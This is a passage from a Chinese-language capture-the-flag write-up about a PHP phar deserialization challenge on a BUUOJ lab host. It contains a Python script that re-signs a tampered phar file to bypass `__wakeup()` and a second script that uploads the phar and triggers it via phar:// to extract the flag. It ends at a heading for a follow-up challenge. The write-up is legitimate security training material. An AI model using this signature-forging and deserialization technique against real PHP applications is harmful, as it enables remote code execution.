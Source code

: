 生成后用010改一下属性以绕过`__wakeup()`

![image-20231127120128641](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231127120128641.png)

修一下签名，脚本如下

```php
from hashlib import sha256
with open("hacker.phar",'rb') as f:
   text=f.read()
   main=text[:-40]        #正文部分(除去最后40字节)
   end=text[-8:]		  #最后八位也是不变的	
   new_sign=sha256(main).digest()
   new_phar=main+new_sign+end
   open("hacker.phar",'wb').write(new_phar) 
```

修复之后：test为签名的最后部分，所以应该是从test修到最后（不包含test）

![image-20231127120201015](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231127120201015.png)

然后写一个脚本用于上传

```php
import urllib.parse
import os
import re
import requests

url='http://1c6e2942-f983-47cc-a6ef-9612e7519196.node4.buuoj.cn:81/'
pattern = r'flag\{.+?\}'
params={
    'pear':'hacker.phar', 
    'apple':'phar://hacker.phar'
}

with open('hacker.phar','rb') as fi:
    f = fi.read()
    ff=urllib.parse.quote(f)//将数据进行url编码
    fin=requests.post(url=url+"pairing.php",data=ff,params=params)
    matches = re.findall(pattern, fin.text)
    for match in matches:
        print(match)
```

flag{b78c61dd-128a-4f87-84b1-8e85744932cd}



# WEEK4

## PharOne

这题跟上个题目差不多，加了个`__HALT_COMPILER`的过滤
